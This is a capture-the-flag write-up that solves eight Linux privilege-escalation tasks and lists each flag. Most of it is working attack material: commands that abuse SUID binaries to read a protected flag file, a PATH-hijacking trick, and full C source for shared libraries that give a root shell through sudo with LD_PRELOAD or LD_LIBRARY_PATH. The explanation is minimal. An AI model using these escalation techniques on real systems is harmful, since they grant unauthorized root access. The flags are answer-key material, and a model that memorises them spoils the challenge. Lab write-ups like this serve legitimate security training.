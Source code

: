 ## Task1
```
find . -type f -name "flag.txt" -exec cat {} \;
```

Flag: CWA{F1r5t_5U1D_D0N3}

## Task2
```
file -f /flag.txt
```
Flag: CWA{G01NG_5TR0NG_K33P_1T_UP}

## Task3
```
cp /flag.txt /dev/stdout
```
Flag: CWA{ST1LL_G01NG_5TR0NG_K33P_1T_UP}

## Task4
```
head -c1G /flag.txt 
```
Flag: CWA{0N3_M0R3_SU1D_L3FT}

## Task5
```
awk '//' /flag.txt 
```
Flag: CWA{FLY_H1GH_L1K3_4_H4WK}

## Task6
```
echo "cat /flag.txt" > ps
export PATH=/home/codwer:$PATH
chmod 777 ./ps
./run_me
```
Flag: CWA{K33P_Y0UR_P4TH_FULL}

## Task7
Generate a C-program file inside /tmp directory.
cd /tmp
nano shell.c

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls -al shell.so

sudo -l
    (ALL : ALL) NOPASSWD: /usr/sbin/apache2


sudo LD_PRELOAD=/tmp/shell.so /usr/sbin/apache2

Flag: CWA{PR3L04D_Y0UR_L1BR4R135}

## Task8
ldd /usr/sbin/apache2
cd tmp
nano script.c

```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

gcc -fPIC -shared -o libcrypt.so.1 script.c -nostartfiles

sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2

cat /flag.txt
Flag: CWA{KN0W_480U7_LD_L18R4RY_P47H}
